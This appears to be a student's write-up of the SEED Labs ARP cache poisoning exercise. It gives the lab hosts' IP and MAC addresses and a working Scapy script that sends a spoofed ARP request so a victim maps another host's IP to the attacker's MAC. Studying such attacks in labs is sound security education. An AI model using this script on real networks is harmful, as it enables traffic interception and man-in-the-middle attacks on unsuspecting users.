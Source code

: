 ###### [Lab Link](https://seedsecuritylabs.org/Labs_20.04/Networking/ARP_Attack/).

---

### Machine Configurations

#### Host M (Attacker)

###### IP : `10.9.0.105`
###### MAC: `02:42:0a:09:00:69`
#### Host A

###### IP : `10.9.0.5`
###### MAC: `02:42:0a:09:00:05`

#### Host B

###### IP : `10.9.0.6`
###### MAC: `02:42:0a:09:00:06`

---
## Task 1: ARP Cache Poisoning
### Task 1.A: ARP Request

> We need to poison the ARP cache of the host A. 

In the cache of host A, instead of pointing to IP of Host B with its correct MAC address B, it will instead be mapped to the MAC of host M.

We can do that by constructing an ARP request packet from host M. It's SRC MAC and SRC IP are the ones that will be saved in host A's cache, so we should place there the values we want spoofed (B IP AND M MAC).

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```
> `op=1` means this is an ARP request.
> The `iface=eth0` is the network interface that these hosts are communicating on. Can be obtained using the `ifconfig` command.
